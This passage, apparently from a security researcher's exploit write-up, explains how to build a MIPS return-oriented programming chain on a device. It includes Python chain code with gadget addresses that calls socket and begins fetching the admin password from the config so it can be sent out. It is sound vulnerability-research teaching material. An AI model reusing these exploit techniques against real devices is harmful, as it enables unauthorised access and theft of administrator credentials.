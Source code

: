 To get 2 into *$a2*, a single gadget didn't exist that could achieve this, so I chained a couple of nicer gadgets together to achieve the same result. 

It is worth highlighting that the *$sp* is at the 'top' of the gadget - let me explain. For the 'add 2 to a1' gadget for example, *$s0* is being loaded at an offset of 0 from *$sp* with the `lw $s0, ($sp)` instruction, and then *$ra* is being loaded at an offset of 4 from *$sp* with `lw $ra, 4($sp)`. The loaded *$s0* is above *$ra* in the chain construction, so you can imagine the stack pointer being at the start of *$s0*. I've found this to be the easiest way to visualise the stack pointer location as you build the chain, and it nicely compartmentalises each gadget used in the chain. 

Now, we need to actually call *socket*. We know the address of socket, so we can simply load the address of this function into a register, and then use a `jalr` call to call the function at the address in our register. After looking through a few gadgets, *$v0* was the best candidate, so the following gadgets were chained together to call *socket*:

```python
# Load address of socket into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(socket_addr) # v0 - socket address
chain += b'b' * 8
chain += p32(0x133d58 + base_address) # ra

# Call socket(2, 1, 0) and regain control
# 0x00133d58: jalr $v0; nop; move $s0, $v0; lw $ra, 0x24($sp); move $v0, $s0; lw $s2, 0x20($sp); lw $s1, 0x1c($sp); lw $s0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x28; 
chain += b'b' * 0x18
chain += p32(sockfd_addr) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x185e38 + base_address) # ra
```

That 2nd gadget is not the prettiest as it uses a lot of padding, but the only other gadget that contained the `jalr $v0;` instruction immediately wiped out the *sockfd* returned by *socket*, which is pretty important! Sometimes you need to accept not all gadgets will be pretty.

If you look at the last gadget, we set the value of *$s0* to be *sockfd_addr*, which is an address that we will be using to store our *sockfd* returned by *socket* for use later. We can then use the following gadget to store *$v0* (containing our return value) to *($s0)*:

```python
# save the socket file descriptor for use later, might not use but oh well
# 0x00185e38: sw $v0, ($s0); lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0x80236c4c - 4) # s0 (0x1010200 address)
chain += p32(0x153d0 + base_address) # ra
```

### config_get

Next, we need to get the value of the admin password from the config that will be sent. By tracing through the calls make by the command line `cfg get` function, I found the function responsible for pulling these values from the config. All we need to provide this function is the ID of the value we want, and where to store it. 

The only annoying thing about the address of the *config_get* function is that it is at address *0x800089e4*, which would contain a null byte if we sent it as is, so we will need to handle this with our gadgets. Lets first set the arguments:
